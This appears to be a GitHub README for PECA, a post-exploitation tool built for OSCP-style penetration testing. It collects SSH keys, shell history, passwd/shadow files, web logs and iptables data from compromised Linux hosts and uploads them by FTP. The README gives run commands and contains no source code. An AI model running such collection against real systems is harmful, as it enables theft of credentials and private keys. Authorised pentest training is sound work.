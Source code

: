 # PECA
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
Note: For educational use only

##### Requirments

  To run the server you will need to have pyftpdlib installed
  
##### Intro:

  Peca was designed to help collect key files from linux 
  machines after exploitation has occured. Originally
  designed to help with data gathering during the OSCP

##### Features:

  * Collects ssh keys from root and home directories
  * Collects .bash* from root and home directories
  * Collects passwd/shadow/group files
  * Collects webservice logs from popular services
  * Collects IPTable data


##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```